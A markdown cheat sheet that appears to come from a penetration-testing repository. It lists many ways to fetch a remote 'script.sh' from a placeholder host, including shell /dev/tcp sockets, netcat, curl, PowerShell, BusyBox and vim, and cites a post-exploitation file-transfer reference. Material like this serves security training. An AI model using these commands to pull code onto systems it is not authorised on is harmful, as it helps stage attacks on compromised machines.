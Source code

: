 # Downloading a file with different tools

Below are multiple client-side methods to download a script (`script.sh`) from a remote server. Replace `<ip>` (and `<user>`, `<password>`, `/path/to/`) as appropriate.

1. **Using File Descriptors in Shell**

   If you don’t have common tools like `wget`, `curl`, `python3`, `nc`, or
   `scp`, you can still fetch a script using shell file descriptors with
   `/dev/tcp`.

   ```bash
   exec 3<>/dev/tcp/<ip>/<port>
   echo -e "GET /script.sh HTTP/1.0\r\nHost: <ip>\r\n\r\n" >&3
   cat <&3 | sed '1,/^\r$/d' > script.sh
   ```

1. **Using `python3`**

   ```bash
   python3 -c 'import urllib.request; urllib.request.urlretrieve("http://<ip>:<port>/script.sh", "script.sh")'
   ```

1. **Using `wget`**

   ```bash
   wget http://<ip>:<port>/script.sh -O script.sh
   ```

1. **Using `curl`**

   ```bash
   curl http://<ip>:<port>/script.sh -o script.sh
   ```

1. **Using `nc` (netcat)**

   ```bash
   nc <ip> <port> > script.sh
   ```

1. **Using `scp`**

   ```bash
   scp user@<ip>:/path/to/script.sh ./script.sh
   ```

1. **Using Perl (stdlib: HTTP::Tiny)**

   ```bash
   perl -MHTTP::Tiny -e 'HTTP::Tiny->new->mirror("http://<ip>:<port>/script.sh","script.sh")'
   ```

1. **Using FTP (interactive)**

   ```bash
   ftp <ip>
   # In FTP prompt:
   # user <username> <password>
   # get script.sh
   # bye
   ```

1. **Using `lftp` (scripted FTP)**

   ```bash
   lftp -e "get script.sh; bye" -u <user>,<password> ftp://<ip>
   ```

1. **Using `rsync`**

   ```bash
   rsync user@<ip>:/path/to/script.sh ./script.sh
   ```

1. **Using PowerShell (Windows)**

   ```powershell
   Invoke-WebRequest -Uri "http://<ip>:<port>/script.sh" -OutFile "script.sh"
   ```

1. **Using BusyBox (`wget` or `nc`)**

   ```bash
   busybox wget http://<ip>:<port>/script.sh -O script.sh
   ```
   or
   ```bash
   busybox nc <ip> <port> > script.sh
   ```

1. **Using `fetch` (BSD)**

   ```bash
   fetch http://<ip>:<port>/script.sh
   ```

1. **Using `telnet` (manual HTTP GET)**

   ```bash
   telnet <ip> <port>
   # Then type:
   # GET /script.sh HTTP/1.0
   # Host: <ip>
   # (Press Enter twice)
   # Copy the response body manually to script.sh
   ```

1. Using `vim`:

   ```vim
   :e http://<your-ip>:<port>/filename
   :w filename
   ```

## References

https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
